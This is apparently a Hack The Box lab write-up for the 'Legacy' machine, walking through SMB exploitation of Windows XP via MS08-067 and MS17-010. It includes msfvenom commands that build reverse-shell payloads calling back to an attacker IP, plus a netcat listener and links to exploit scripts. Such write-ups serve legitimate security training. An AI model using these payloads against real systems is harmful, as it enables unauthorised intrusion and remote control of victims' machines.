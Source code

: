 ![legacy](https://user-images.githubusercontent.com/43796175/105492077-5e740680-5c85-11eb-8224-07901100704c.jpg)

## LEGACY: Write Up

In this machine i learn about MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143), two exploits of SMB. Exploit this vulnerability manually is simple.

# 01: Information Gathering

First of all i ran nmap with basic commands and i saw two open ports and one closed:

![nmap](https://user-images.githubusercontent.com/43796175/105779180-cf444880-5f3b-11eb-8233-22831472876c.jpg)

Then i did a deeper scan with nmap against 445 port:

![smbnmap](https://user-images.githubusercontent.com/43796175/105779606-b5573580-5f3c-11eb-87a3-a4b20fd80a5b.jpg)
![smbnmap02](https://user-images.githubusercontent.com/43796175/105779613-b7b98f80-5f3c-11eb-86f4-92610487a8b2.jpg)

Nmap showed MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143) are very interesting to exploit.

# 02: Threat Modeling

In my mental map smbclient and smbmap were the first option to test, but without results:

![smbno](https://user-images.githubusercontent.com/43796175/105781825-3d3f3e80-5f41-11eb-8e15-73347d9c62f0.jpg)


# 03: Vulnerability Analysis

Both of these vulnerabilities (MS-08-067 & MS-17-010) gives a shell as system and each one have a metasploit module for exploit easily but i will show how exploit this manually.

# 04: Exploitation

## MS-08-067

I will use [this exploit](https://github.com/andyacer/ms08_067) for exploit the vulnerability, this script requires impacket and replace the default shellcode with some of my own. Ok, to make the shellcode i used *msfvenom*:

`
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
`


![venom,](https://user-images.githubusercontent.com/43796175/105800547-fb27f400-5f64-11eb-9111-86f7272892ed.jpg)

The parameters are:

* -p: Type of payload (Single payload, you can learn about this [here](https://github.com/rapid7/metasploit-framework/wiki/How-payloads-work) )
* LHOST: Host where reverse connection is follow
* LPORT: Port where reverse connection is follow
* EXITFUNC: How is the exit
* -b: The bad characters not to use (The script gave me this)
* -f: Output in python format
* -v: Have the code set the variable *shellcode*
* -a: Architecture of the output
* --platform: OS for script (Windows in this case)

Then i will take this shellcode into the script and replace in the original:

![replce](https://user-images.githubusercontent.com/43796175/105800728-6b367a00-5f65-11eb-98b4-e046daddc172.jpg)

The exploit require that i know the version of Windows and language pack are running in the victim. I ran nmap again for this purpose:

![os](https://user-images.githubusercontent.com/43796175/105800920-e9931c00-5f65-11eb-9d2a-2bed37a3e6ba.jpg)

Apparently the version can be Windows XP, and with the language pack i tried to find the right one.

NOTE: In this point, i had a problem with *pip* and *pip3* in Parrot OS Security, for repair part [this problem](https://forum.hackthebox.eu/discussion/3940/installing-pip2-apt-install-python-pip-no-longer-works) i need a file "*get_pip.py*" provided by [Dr. Zaiuss](https://github.com/zaiuss). You can find this file [*here*](https://github.com/0xCGonzalo/HtB-Write-Ups/blob/main/Machines/Legacy/get_pip.py)

Now, i set a netcat in the port 443 (configured in my shellcode):

![nc](https://user-images.githubusercontent.com/43796175/105801440-1f84d000-5f67-11eb-9ce4-6d4a88410f89.jpg)

And i run the script:

![okcon](https://user-images.githubusercontent.com/43796175/105801530-4d6a1480-5f67-11eb-9ae5-b0d2467afe71.jpg)

I checked my connection and i got a reverse shell:

![ok1](https://user-images.githubusercontent.com/43796175/105801634-85715780-5f67-11eb-803c-6a6c43970390.jpg)

## MS-17-010

I found a lot of exploits for MS-17-010 but doesn't work in Windows XP. Fortunately, i found [this repo](https://github.com/helviojunior/MS17-010) of [Helviojunior](https://github.com/helviojunior), he added a "*send_and_execute.py*", which i can give an executable and it will upload and run it:

![wget2](https://user-images.githubusercontent.com/43796175/105803070-a25b5a00-5f6a-11eb-9c60-759e250c976e.jpg)

I will use *msfvenom* again, but in this time, i don’t need to worry about bad characters or variable names because i can use *exe* file:

`
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=442 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_10.10.14.11_443.exe
`

![msvenom2](https://user-images.githubusercontent.com/43796175/105803357-4ba25000-5f6b-11eb-8d59-b5d24a3ccafb.jpg)

Now i will start a listener and then run the exploit:

![last1](https://user-images.githubusercontent.com/43796175/105803825-3ed22c00-5f6c-11eb-92b5-158c5576cc8f.jpg)

And i get a shell:

![ok2](https://user-images.githubusercontent.com/43796175/105803896-6fb26100-5f6c-11eb-845d-205f7a81bc47.jpg)

# 05: Post-Exploitation

As you may noticed, the system command "*whoami*" doesn't work in anyone case. Let's fix this.

First, is necessary check the path of this binary in your system (i'm running Parrot OS, but in Kali Linux work fine):

`
/usr/share/windows-binaries/
`

![whoami](https://user-images.githubusercontent.com/43796175/105804291-6aa1e180-5f6d-11eb-92f2-c410027c53d8.jpg)

Now, i will use *smbserver.py* for share my folder and use the binary *whoami* in the victim machine:

![server](https://user-images.githubusercontent.com/43796175/105804410-bce30280-5f6d-11eb-8fac-84cb427ea3c6.jpg)

Then, you can run this and see that you're system:

![final](https://user-images.githubusercontent.com/43796175/105804555-1814f500-5f6e-11eb-9903-0efb3c9cbbc2.jpg)

![syst](https://user-images.githubusercontent.com/43796175/105804532-092e4280-5f6e-11eb-9921-102db8b7ad11.jpg)

There are other ways i could check, like having access to write in certain places (system32 path for example). 

Getting *whoami.exe*is certainly one of the easiest and most definitive methods.

I wanna recommends this blog https://0xdf.gitlab.io/, [0xdf](https://twitter.com/0xdf) thank you alot.
